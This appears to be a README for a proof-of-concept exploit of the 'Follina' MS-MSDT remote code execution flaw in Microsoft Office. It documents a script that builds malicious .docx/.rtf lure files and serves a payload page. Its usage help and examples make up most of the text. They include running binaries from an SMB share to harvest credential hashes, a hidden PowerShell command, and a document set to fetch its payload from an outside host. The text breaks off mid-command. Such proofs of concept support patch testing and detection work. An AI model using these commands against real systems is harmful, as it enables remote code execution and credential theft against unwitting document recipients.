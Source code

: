 'Follina' MS-MSDT n-day Microsoft Office RCE
This repository contains a quick Proof-of-Concept (POC) to replicate the 'Follina' Office Remote Code Execution (RCE) vulnerability. It is intended for local testing purposes only. By running the provided script, you can generate a payload file named clickme.docx (or clickme.rtf) in your current working directory. Additionally, a web server will be started with the generated payload file (www/exploit.html). Please note that the payload and web server parameters can be configured (refer to the help and examples sections).

⚠ IMPORTANT: DO NOT USE THIS IN A PRODUCTION ENVIRONMENT, AS IT MAY LEAD TO UNINTENDED CONSEQUENCES.

Usage
To use this POC, follow the instructions below:

sql
Copy code
$ python .\follina.py -h
usage: follina.py [-h] -m {command,binary} [-b BINARY] [-c COMMAND] -t {rtf,docx} [-u URL] [-H HOST] [-P PORT]

options:
  -h, --help            show this help message and exit

Required Arguments:
  -m {command,binary}, --mode {command,binary}
                        Specifies the execution mode. Use "binary" to load a (remote) binary, or "command" to run an encoded PowerShell command.

Binary Execution Arguments:
  -b BINARY, --binary BINARY
                        Specifies the full path of the binary to run. It can be a local or remote path from an SMB share.

Command Execution Arguments:
  -c COMMAND, --command COMMAND
                        Specifies the encoded command to execute in "command" mode.

Optional Arguments:
  -t {rtf,docx}, --type {rtf,docx}
                        Specifies the type of payload to use. Use "docx" or "rtf".
  -u URL, --url URL     Specifies the hostname or IP address from which the generated document should retrieve your payload. Defaults to "localhost". If a custom URL scheme or path are specified, the web server will be disabled.
  -H HOST, --host HOST  Specifies the interface for the web server to listen on. Defaults to all interfaces (0.0.0.0).
  -P PORT, --port PORT  Specifies the port to run the HTTP server on. Defaults to port 80.
Examples
Here are some examples of how to use the script:

php
Copy code
# Execute a local binary
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe

# On Linux, you may need to escape backslashes
python .\follina.py -t rtf -m binary -b \\windows\\system32\\calc.exe

# Execute a binary from a file share (can be used to harvest hashes 👀)
python .\follina.py -t docx -m binary -b \\localhost\c$\windows\system32\calc.exe

# Execute an arbitrary PowerShell command
python .\follina.py -t rtf -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c echo owned > c:\users\public\owned.txt'"

# Run the web server on the default interface (all interfaces, 0.0.0.0), but instruct the malicious document to retrieve it from http://1.2.3.4/exploit.html
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe -u 1.2
